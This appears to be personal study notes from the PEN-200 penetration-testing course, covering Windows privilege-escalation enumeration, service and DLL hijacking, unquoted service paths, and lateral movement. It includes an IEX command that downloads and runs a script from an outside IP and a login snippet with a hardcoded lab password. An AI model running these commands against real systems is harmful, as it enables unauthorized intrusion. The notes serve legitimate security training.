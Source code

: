 # From pen-200 course.  




### Host enumeration

**can be automated with winPEAS.ps1**
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.247/winPEAS.ps1')
```
[winPEAS Github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

<br>

**Enumeration checklist**

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

<br><br><br>
Get all local users:  Get-LocalUser  
<a name="Get-LocalUser">

Get all local groups: Get-LocalGroup   OR net localgroup  
<a name="Get-LocalGroup">

Gather:  
- systeminfo
- ipconfig /a
- route print
- netstat -ano
- Get-Process
**SHOWS THE POWERSHELL  HISTORY**
- Get-History       
- type (Get-PSReadlineOption).HistorySavePath **this shows all history. Even what Clear-history doesnt clear**
- 
  <br><br>

  Get all installed programs X86:
  ``` powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

  Get all installed programs X64:
  ```powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```
<br>
<br>
<br>

### Leveraging Windows Services
<br>

***To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject)***

<br>
#### Service Binary Hijacking

**get all running services, name,state and pathname**
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

<br>

#### DLL Hijacking 

***make a DLL and put it where the other DLL would load from.  Remember DLL load order***
<img width="845" height="178" alt="image" src="https://github.com/user-attachments/assets/a6b959ab-ae6b-4f8f-86a3-1da2a875e1b5" />
<br><br><br>

#### Unquoted service paths

Script below searches for unquoted service paths using CMD.exe  

``` cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

<br>
### Scheduled tasks

three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

***interesting information can be found in the Author, TaskName, Task To Run, Run As User, and Next Run Time fields***

<br><br>
### printer spooler enumeration
Check to see if print spooler is running
ls "\dc01\pipe\spoolss"

<br>
<br>
<br>


### Lateral movement techniques  
<br>
- Lateral movement with Enter-PSSession:
  
``` Powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
<br>
- Lateral movement with Evil-winrm(apparently enter-pssession isnt too stable)
[Evil-WinRm github](https://github.com/Hackplayers/evil-winrm)

**WinRm is on port 5985**

<img width="835" height="725" alt="image" src="https://github.com/user-attachments/assets/13bc6534-e9d7-49a6-8c61-a06f995ea0cb" />

<br><br><br>

# PEN-300 course

### LAPS



  
